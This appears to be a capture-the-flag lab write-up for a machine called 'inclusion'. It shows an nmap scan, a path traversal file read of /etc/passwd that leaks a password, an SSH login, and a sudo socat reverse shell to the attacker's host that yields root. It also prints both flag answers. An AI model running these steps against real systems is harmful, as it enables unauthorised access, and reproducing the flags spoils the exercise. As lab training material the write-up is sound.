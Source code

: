 # Root It

### user flag

* Try nmap. I got `ssh` and `http`.

```
┌──(root💀kali)-[~]
└─# nmap -sV 10.10.47.135             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-04 22:49 +07
Nmap scan report for 10.10.47.135
Host is up (0.34s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.59 seconds
```

* Try reading linux passwd file.

```
http://10.10.47.135/article?name=etc/passwd
http://10.10.47.135/article?name=../etc/passwd
http://10.10.47.135/article?name=../../etc/passwd
http://10.10.47.135/article?name=../../../etc/passwd (success)
```

```
┌──(root💀kali)-[~]
└─# curl http://10.10.47.135/article?name=../../../etc/passwd
...
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
...

                                                                             
┌──(root💀kali)-[~]
└─# ssh falconfeast@10.10.47.135                       
The authenticity of host '10.10.47.135 (10.10.47.135)' can't be established.
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.47.135' (ECDSA) to the list of known hosts.
falconfeast@10.10.47.135's password: (type 'rootpassword' here)
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)
...
Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
60989655118397345799
```

> *Answer:* 60989655118397345799

### root flag
```
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

* [Reverse shell with socat](https://gtfobins.github.io/gtfobins/socat/#reverse-shell).

```
┌──(root💀kali)-[~]
└─# socat file:`tty`,raw,echo=0 tcp-listen:12345

falconfeast@inclusion:~$ sudo socat tcp-connect:<kali_ip>:12345 exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

* Back to kali.

```
┌──(root💀kali)-[~]
└─# socat file:`tty`,raw,echo=0 tcp-listen:12345
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

<h1 align="center">
  <img src="https://i2.wp.com/media4.giphy.com/media/mQG644PY8O7rG/giphy.gif" style="max-width:600px;">
</h1>

```
# ls /root
root.txt
# cat /root/root.txt
42964104845495153909
```

> *Answer:* 42964104845495153909

